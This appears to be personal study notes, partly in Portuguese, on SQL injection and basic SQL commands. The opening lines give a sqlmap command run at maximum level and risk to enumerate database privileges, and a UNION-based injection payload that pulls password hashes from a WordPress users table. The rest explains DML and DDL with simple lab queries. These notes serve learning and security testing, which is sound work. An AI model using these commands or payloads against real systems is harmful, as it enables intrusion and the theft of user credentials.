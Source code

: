 	

## Verifying user privileges


	sqlmap -r req.txt -p "estado" --level=5 --risk=3 --threads 3 --dbms=mysql --os=linux --hex --privileges


## Dump username's passwords

    ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]



Conceitos SQL
========================

- DML
- DDL
- DCL

## SQL

First exercise
 Construir uma query que vá trazer o resultado departamento da pessoa Bob Franco
 
![qownnotes-media-DAXRXY](media/qownnotes-media-DAXRXY-8340.png)

SELECT department from employees where first_name = 'Bob' and last_name = 'Franco';

### DML (Data manipulation language)

-   Data manipulation language : Utilizada para inserir, alterar, obter e deletar dados do banco de dados
    -  SELECT
    -  UPDATE
    -  DELETE
    -  INSERT
 
UPDATE syntax:    
update tablename set column_name 'value' where column = 'value';

update employees set department = 'Sales' where first_name = 'Tobi' and last_name = 'Barnett';

Group by is defined to fetch the data that is the same for the column specified

Having on top of group by to match a certain conditions

Order by sort by some columns


### DDL (Data definition language)
- Data definition language: Change database structure creating, removing and altering table structures
    - CREATE
    -  DROP
    -  ALTER
 